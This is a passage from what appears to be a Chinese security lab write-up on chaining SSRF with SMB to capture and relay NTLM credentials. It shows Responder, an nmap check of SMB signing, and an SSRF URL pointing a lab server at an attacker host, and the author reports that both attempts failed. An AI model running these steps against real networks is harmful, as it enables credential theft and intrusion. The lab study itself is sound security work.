 然后选择虚拟硬盘的时候使用现有的，即官方下载的虚拟机文件 \*.vdi,即可直接导入KaLi虚拟机。

[![](assets/1701134864-195aa537a8305781d25fc6f6b60c1671.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127143234-c003f54e-8cee-1.png)

修改网络为Bridged(桥接），保证另一台 Windows 和 KaLi 在一个局域网里面。kaLI 已经内置responder

```plain
sudo responder -I eth0 -dwv
```

不过很可惜，通过SSRF 访问`http://192.168.0.117/ssrf.php?url=smb://192.168.0.123/share/1.txt` ，甚至根据官方给出的`curl`

[![](assets/1701134864-66756a41ded8710ff4885d45d3923ff5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127143257-cd709d86-8cee-1.png)

Responder 一点反应都没有，`curl_error($ch)`也没有任何信息，一切看起来都静悄悄地，甚至我一度怀疑`smb`协议是一个摆设?

**2）NTLM 中继 失败 ！**

NTLM 中继成功的前提是 SMB 签名必须是未开启状态或者是禁用状态。

```plain
nmap --script=smb2-security-mode.nse -p445  192.168.0.114
```

SMB签名除了域控其他系统默认都是不开启的，所以一开始我的想法很大胆，当然后面通过实验，验证很多想法是不成立的，一开始本是想着如果1）成立可获得高权限凭证，那么直接smb中继自己/其他人，甚至可以超越SSRF实现命令执行，但是现连NTLM劫持都做不了，又谈何中继呢？ 失败！
